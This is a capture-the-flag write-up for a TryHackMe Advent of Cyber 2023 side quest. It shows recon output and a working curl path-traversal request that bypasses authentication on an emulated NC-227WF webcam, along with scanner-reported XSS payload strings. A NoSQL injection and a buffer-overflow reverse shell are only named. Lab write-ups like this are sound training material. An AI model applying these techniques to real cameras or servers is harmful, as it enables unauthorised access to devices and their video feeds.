# Side Quest 2

## TL;DR:
1) Buy the real yeti charm from the vendor, and null terminate the values to match what the ghost NPC tells you about the legend. Finish it off with the konami code to get your QR. 
  {:start="2"}
2) Path traverse through /images/ to get to the live view page with the flag.
  {:start="3"}
3) NoSQL inject an unprotected login path until you get the admin index.php.
  {:start="4"}
4) Local load the EMUX IOT demonstration and buffer overflow the terrible webs proxy to get a reverse shell.
   
## TL;StillRead:

# Part 0 - Finding The Room

This one was a doozy. Finding it was pretty simple in Day 6's challenge with a hint about a ghost.

The task itself is spelled out pretty well in the prompt: Modify your memory buffer to override stored variables. The answers to the questions are out of scope for this article, but let me give a quick breakdown of the path to find the quest room:

1) Overwrite the buffer at the name changer to give yourself as much money as you can, an ascii table would probably be useful here:
   {:start="2"}
2) Talk to the merchant to buy a missing item from her inventory. If you hack in item "a" to your inventory, it's revealed that it's actually a fake item and that she's willing to sell you the real one:
  
  {:start="3"}
3) Talk to the glitch and learn the requirements for the puzzle:

- Have exactly 31337 coins
- Be named Snowball
- Have a merchant named Midas
- Have a shop keep named Ted
- Have the blue yeti coin in your inventory
- Play the "30 lives" konami code
  
The big trick was to look back to the prompt to see what's storing the variables. C++ is using little endian (so everything's reversed) and the strings are terminated on null values.

So simply keep talking to the name changer to fill these values in backwards, one at a time from bottom to top (Note that you need to modify the coins to leave yourself enough for the right amount of cash to change your name one last time)




Side note: There is an alternative path forward to this as well. If you inspect the javascript of the index.js file in a browser with WASM debuggers like Chrome, you can find reference to this qr.map and a byte index. If you were to extract that byte index start -> end from index.data.gz, you can get a copy of the qr map with an easy map of bytes to convert to white and black to arrive at this same answer.

On to the actual quest!

# Part 1

There wasn't much to start with, just a prompt to look around and dive into a digital snowstorm. At the time, the second hint of "stay stealthy" hadn't yet been released, but it would have saved me some time! I believe the apps were a bit unstable to aggressive scanning and would cause them to fall over. We'll learn a bit more about the reason for this as we go through the article.

I like to go through the OSI model when thinking about what am I looking for. Ports are a great way of seeing which paths forward I might have as they are the most likely to be exploitable. Then I follow with looking for clues/exploits for session handlers like Apache, followed by application level debugging.

### Nmap:
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ sudo nmap -sC -sV -p- 10.10.173.21 -vv --min-rate 1500 >> /dev/null      
                
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ cat nmapout.article 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-10 12:17 PST
...<truncated>...
Nmap scan report for 10.10.173.21
Host is up, received echo-reply ttl 61 (0.19s latency).
Scanned at 2023-12-10 12:17:57 PST for 94s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
...<truncated>...
23/tcp    open  tcpwrapped syn-ack ttl 60
8080/tcp  open  http       syn-ack ttl 60 Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: TryHackMe | Access Forbidden - 403
50628/tcp open  unknown    syn-ack ttl 60
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 302 Redirect
|     Server: Webs
...<truncated>...
|     Location: http://NC-227WF-HD-720P:50628/default.asp
...<truncated>...
Nmap done: 1 IP address (1 host up) scanned in 97.72 seconds
           Raw packets sent: 71507 (3.146MB) | Rcvd: 70485 (2.819MB)
```
3 services, and I'll break down each in their own sections in order.

### 50628 "Webs":


This one feels a lot more promising, however a simple "admin/admin" doesn't get me in as the Google'd default credentials would promise. Oh well.
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ nikto -host http://10.10.27.8:50628
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.27.8
+ Target Hostname:    10.10.27.8
+ Target Port:        50628
+ Start Time:         2023-12-07 12:36:25 (GMT-8)
---------------------------------------------------------------------------
+ Server: Webs
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://10.10.27.8/default.asp
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /themes/mambosimple.php?detection=detected&sitename=</title><script>alert(document.cookie)</script>: Mambo PHP Portal/Server is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1204
+ /index.php?option=search&searchword=<script>alert(document.cookie);</script>: Mambo Site Server 4.0 build 10 is vulnerable to Cross Site Scripting (XSS).
+ /emailfriend/emailnews.php?id=\"<script>alert(document.cookie)</script>: Mambo PHP Portal/Server is vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1204
<snip>
```
Nikto swears that this site has hundreds of vulns, but it looks more like it's hitting confusing filters for most of them so I'm going to truncate those in this output:
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ gobuster dir -u http://10.10.27.8:50628 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x txt,js,php,html -t 40 --timeout=3s -o gobuster-task2-3.txt --retry --timeout=1s -b 401
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.8:50628
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   401
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,js,php,html
[+] Timeout:                 1s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

...

┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ cat gobuster-task2-3.txt        
/mobile               (Status: 302) [Size: 211] [--> http://10.10.27.8:50628/mobile/default.asp]
```                                                                                  
And a gobuster enumeration for good measure.

Did not find much in this to give me a good hint at what we're looking at.



The old fashioned browser result shows some interesting info though.



This is an ASP app served by "Webs", the default login takes you to /en/player/flash_vga.asp, and it's protected with basic auth.

Let's google up vulnerabilities for this webcam "NC-227WF HD 720P"



Oh clever. I suppose in the real world I could always just go buy a copy of the device and have it locally to dump and debug. It appears therealsaumil has a great vulnerability testing product for IOT devices and this happens to be one of them! The real likelihood is that this is the exact same one but we don't have to assume that. Let's load this up on docker and explore the contents per the [github instructions](https://github.com/therealsaumil/emux/blob/master/README.md).



The github has some great documentation on the layout of the project, but the gist is as follows:

Socat routes ports to QEMU VMs in the container that effectively work as sub containers within the emux container. And since we have the file system and running image to start with, let's just take a look and see what we find.

> Below is hosted locally on my attack box for testing.

In our running processes on the container, we can see reference to our "webs" server per the header output information. Let's see if we can take a quick crack at that.



I don't see any open file handles by that service, and there's no (easy) documentation on where it's getting its web configurations from (as I assume... hope) there must be. sigh let's open our decompiler and exfil the rootfs.tar.bz/usr/bin/webs from the repo (as found in our open file handles) to start debugging this binary. Remember that this is an ARM compiled bin.

I really like looking at defined strings in these binaries as they're almost always useful, and they're readable-low-hanging-fruit. Who doesn't like easy?



In fact, just looking for config files, I see several here! Mostly related to `umconfig.txt` and one going to `webs.conf`.

Looking at umconfig.txt we already hit paydirt:




An INI table of users, passwords, and route permissions by group. Ah the secrecy!

This confirms our hypothesis that the default password was changed from "admin" as it sits here not being "admin" on the remote box. Touche THM.

But now we have some other things. Routes tend to work as a matching mechanism by various headers. URI headers (the part of the GET/POST call that has the /thing/here) are very common to map things like paths to other web servers, or to advanced rule sets, or even rewrites for things like redirects or to change the content of a site before being served.

In this path we can now see things that have access to guest, but also things that can only be seen by **authenticated user groups**:


Right next to each-other we have the path for both a guest location block, and the one that looks like it will match our initial /en/player/flash_vga.asp redirect.

Let's verify this assumption.


Yup, here's an image that an unauth'd (me) user can see on an /??/images/ route.



And a path that should be blocked by the /??/player/ location block.

So what happens if we try to navigate to a page in player, but try to get the images location block to trigger?

Oh a redirect will happen. Good on you super secure IOT device! Wait... a redirect means we hit a page... let's throw this in curl and see what happens...

```bash
┌──(tokugero㉿kali)-[~/…/rooms/aoc2023/task2/emux-master]
└─$ curl  -v --path-as-is 'http://10.10.232.34:50628/en/images/../player/flash_vga.asp'
*   Trying 10.10.232.34:50628...
* Connected to 10.10.232.34 (10.10.232.34) port 50628
> GET /en/images/../player/flash_vga.asp HTTP/1.1
> Host: 10.10.232.34:50628
> User-Agent: curl/8.4.0
> Accept: */*
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Date: Wed Dec 31 21:55:54 1969
< Server: Webs
< Pragma: no-cache
< Cache-Control: no-cache
< Content-type: text/html
< 
<html>
<head>
<title>Network Camera Home Page</title>
<snip>
        <td width=416 height=42 background="../../images/flash_vga_right_top.png">
                <table width=100% border=0 cellspacing=0 cellpadding=0>
                <tr>
                        <td align=right>
                                <font color=#000000>
                                <a href="../login.asp" target="_top"><font color=#000000>Home</font></a>
                                <b>|</b>
                                <a href="../main.asp" target="_top"><font color=#000000>Setting</font></a>
                                <b>|</b>
                                <a href="flash_vga.asp?stream=0">Primary Stream</a>
                                <b>|</b>
                                <a href="flash_vga.asp?stream=1">Secondary Stream</a>
                                </font>
                        </td>
                        <td width="2%">&nbsp;</td>
                </tr>
                </table>
    </td>
</tr>
<snip>
<embed src="rtmp://10.10.232.34:50628/live/0/h264_flv" quality="high" b
<snip>
    jwplayer("myPlayer").setup({
        file: "rtmp://10.10.232.34:50628/live/0/h264_flv",
        width: "640",
        height: "480",
        autostart: true,
    });
<snip>
</body>
</html>
* Closing connection
```


Let's follow some of those stream links to see if we can see where the camera is hiding.

After looking through player files from my local system and following around links with our reproduction of the directory traversal we have liftoff.


> The first flag



Now we can go a level deeper. There's also account management in this web interface.



Dang not even trying to obscure the passwords.



Full webcam access!

# Part 2

## Enumeration
There wasn't much to start with, just a prompt to look around and dive into a digital snowstorm. At the time, the second hint of "stay stealthy" hadn't yet been released, but it would have saved me some time! I believe the apps were a bit unstable to aggressive scanning and would cause them to fall over. We'll learn a bit more about the reason for this as we go through the article.

I like to go through the OSI model when thinking about what am I looking for. Ports are a great way of seeing which paths I might have forward as they are the most likely to be exploitable. Then I follow with looking for clues/exploits for session handlers like Apache, followed by application level debugging.

### Nmap:
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ sudo nmap -sC -sV -p- 10.10.173.21 -vv --min-rate 1500 >> /dev/null      

                                                                                                                                                                                                                                                                        
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ cat nmapout.article 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-10 12:17 PST
...<truncated>...
Nmap scan report for 10.10.173.21
Host is up, received echo-reply ttl 61 (0.19s latency).
Scanned at 2023-12-10 12:17:57 PST for 94s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
...<truncated>...
23/tcp    open  tcpwrapped syn-ack ttl 60
8080/tcp  open  http       syn-ack ttl 60 Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: TryHackMe | Access Forbidden - 403
50628/tcp open  unknown    syn-ack ttl 60
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 302 Redirect
|     Server: Webs
...<truncated>...
|     Location: http://NC-227WF-HD-720P:50628/default.asp
...<truncated>...
Nmap done: 1 IP address (1 host up) scanned in 97.72 seconds
           Raw packets sent: 71507 (3.146MB) | Rcvd: 70485 (2.819MB)
```

3 services, and I'll break down each in their own sections in order.

### 23 Telnet???:
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ telnet 10.10.173.21 23  
Trying 10.10.173.21...
Connected to 10.10.173.21.
Escape character is '^]'.
Connection closed by foreign host.
```

As the connection was allowed but then closed, it signifies that it got past all the boundaries and went to an app that immediately closed the session. It could be a custom app, it could be something subject to overflows, it could be a clue: But I didn't figure it out until the end of the puzzle. I'll leave the mystery alive until we get to the end.

### 8080 Apache:


This was my first whole day spent. There's not much here, and there's no interesting source code in the page. However the headers do give me some initial clues as to what I'm working on:

```
HTTP/1.1 403 Forbidden
Date: Sun, 10 Dec 2023 20:33:28 GMT
Server: Apache/2.4.57 (Debian)
Last-Modified: Tue, 05 Dec 2023 18:54:54 GMT
ETag: "3a5-60bc7c52a95e8"
Accept-Ranges: bytes
Content-Length: 933
Connection: close
Content-Type: text/html
```

Apache on Debian. It's not much but it's a start!

Time to enumerate some more. Gotta go deeper!

### Nikto:
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ nikto -host http://10.10.173.21:8080                       
                        
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.173.21
+ Target Hostname:    10.10.173.21
+ Target Port:        8080
+ Start Time:         2023-12-06 14:16:11 (GMT-8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.57 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /index.php/123: Retrieved x-powered-by header: PHP/8.1.26.
+ /index.php/123: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /.DS_Store: Apache on Mac OSX will serve the .DS_Store file, which contains sensitive information. Configure Apache to ignore this file or upgrade to a newer version. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-1446
+ 26613 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2023-12-06 15:47:24 (GMT-8) (5473 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Shows some interesting data like how to access index.php without a 403, and the existence of .DS_Store.

### Gobuster
```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ cat gobuster-task2-7.txt
/index.php/           (Status: 200) [Size: 3513]
/login.php/           (Status: 302) [Size: 2342] [--> /]
/demo                 (Status: 200) [Size: 41]
/vendor               (Status: 301) [Size: 318] [--> http://10.10.72.54:8080/vendor/]
/server-status        (Status: 403) [Size: 933]
                                                                                                                                   
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task2]
└─$ gobuster dir -u http://10.10.173.21:8080 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x txt,js,php/,html -t 40 --timeout=3s -o gobuster-task2.txt --retry --timeout=1s
```

There was a lot of 403 errors, so to filter these naughty list elves out for now. And with this some more definitive paths.

View in a picture:



Let's fill in some blanks



This friggin' elf. But let's check DS_Store. A quick google how to reveals a number of methods, this one's probably the simplest: https://github.com/gehaxelt/Python-dsstore

```bash
┌──(tokugero㉿kali)-[~/…/aoc2023/task2/dsstore/Python-dsstore-master]
└─$ python main.py ../../.DS_Store
Count:  4
vendor
...
                                                                                                                                                                          
┌──(tokugero㉿kali)-[~/…/aoc2023/task2/dsstore/Python-dsstore-master]
└─$ python main.py ../../.DS_Store4
Count:  20
composer
...
jean85
...
mongodb
...
psr
...
symfony
...
```

